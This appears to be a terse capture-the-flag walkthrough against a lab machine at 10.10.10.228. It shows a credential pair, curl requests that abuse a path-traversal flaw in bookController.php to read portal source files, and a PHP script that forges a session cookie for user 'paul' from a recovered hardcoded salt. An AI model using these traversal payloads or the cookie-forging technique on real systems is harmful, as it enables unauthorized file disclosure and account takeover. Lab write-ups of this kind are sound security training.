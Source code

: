 ```bash
bread:jUli901
```

MYSQL

![image](https://user-images.githubusercontent.com/68326057/117799532-dc2d4380-b26f-11eb-9001-27f298cade9e.png)

SMBCLIENT

![image](https://user-images.githubusercontent.com/68326057/117799583-e8190580-b26f-11eb-9916-f0a2e29550ec.png)

SSH

![image](https://user-images.githubusercontent.com/68326057/117799739-0da60f00-b270-11eb-9089-3ca63b825b2e.png)


```bash
curl  -XPOST -d "book=../portal/signup.php&method=1" http://10.10.10.228/includes/bookController.php
```

![image](https://user-images.githubusercontent.com/68326057/117801801-54950400-b272-11eb-9dca-7a834525b2ad.png)


```bash
curl  -XPOST -d "book=../portal/authController.php&method=1" http://10.10.10.228/includes/bookController.php > auth.php
```

![image](https://user-images.githubusercontent.com/68326057/117802879-9d00f180-b273-11eb-95b2-8d5218352df1.png)

cookie.php

```bash
curl  -XPOST -d "book=../portal/cookie.php&method=1" http://10.10.10.228/includes/bookController.php > cookie.php
```

![image](https://user-images.githubusercontent.com/68326057/117803220-fec15b80-b273-11eb-9f0e-de7e956c7bcf.png)

Modified code:-

```php
<?php

$username="paul";
$max = strlen($username) - 1;
$seed = rand(0, $max);
$key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
$session_cookie = $username.md5($key);

echo $session_cookie;

?>
```

![image](https://user-images.githubusercontent.com/68326057/117803761-9e7ee980-b274-11eb-83c1-9fd39af858ba.png)
